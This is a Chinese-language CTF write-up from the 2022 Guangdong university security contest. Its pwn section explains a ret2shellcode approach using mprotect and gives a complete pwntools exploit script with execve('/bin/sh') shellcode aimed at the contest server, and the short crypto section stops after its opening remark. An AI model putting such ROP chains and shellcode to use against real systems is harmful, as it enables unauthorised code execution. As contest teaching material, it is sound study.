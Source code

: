 # 2022广东省赛
>**(第二届广东大学生网络安全攻防大赛)**  
>**【HED CTF / COMPASS CTF】 WriteUp**  
>**Rank:9** （total 504） Solve:8 Pts:1947

## Pwn
### Pwn | jmp_rsp (235pt)
**写WP时候发现远程的bss是RWX的，直接ret2bss就完了，为什么IDA和readelf都说bss是RW的呢？**  
**更惨的是，这题好像有jmp rsp的gadget。。。**  
**怎么有不读题就开始造链子的人呢 XD 可能这就是我变不PWN的原因吧** 

checksec显示有canary，其他保护全无，栈段RWX  
IDA打开，程序逻辑非常简单，在read处也无canary，但是看起来这是个静态编译的二进制，没有引用的外部函数。  
先想到的是：写bss格式化字符串 + printf rop泄露栈地址 + 栈上ret2shellcode  
但是大概是没设置小缓冲区的原因，程序直到退出才吐出输出，在远程就拿不到任何输出，所以考虑不利用输出的getshell  
这题没有libc也不能ret2dl，但是有mprotect函数，可以改段权限，于是构造：  
shellcode写到bss + mprotect改bss权限 + bss上ret2shellcode  
 

exp:
```python
from pwn import p64
from pwn import *

# context.log_level = "debug"
e = ELF('jmp_rsp')
p = remote("47.106.122.102", 45286)
# p = e.process()
read_addr = 0x449380  # elf.sym["read"]
vul_addr = 0X400b5d
mprot_addr = 0x44a160
printf = 0x40f690
rdi = 0x401902
rsi_r15 = 0x401900
bss_addr = e.bss()
print(bss_addr)
p_write_bss = b'a' * 0x88 + p64(rdi) + p64(0) + p64(rsi_r15) + p64(bss_addr) + b'a' * 8 + p64(read_addr) + p64(vul_addr)
p.send(p_write_bss + b'c' * (0x100 - len(p_write_bss)))
shell_code = \
    b'jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'
p.send(shell_code + b'c' * (0x100 - len(shell_code)))

payload = b'a' * 0x88 + p64(0x4018F5) + p64(vul_addr) + p64(0) + p64(1) + p64(mprot_addr) + p64(7) + p64(0x100000) + p64(0x600000) + p64(bss_addr)
p.send(payload + b'c' * (0x100 - len(payload)))
p.interactive()
```
## Crypto
### Crypto | crypto-xor2 (114pt)
想起了HackNat里边的一个剧情：一个人把他的密码设成\*\*\*\*\*\*\*，这样如果有一天密码被盗了，别人也会以为没拿到真正的密码。    
队里密码师傅说是智商检测题，她说是就是吧...  
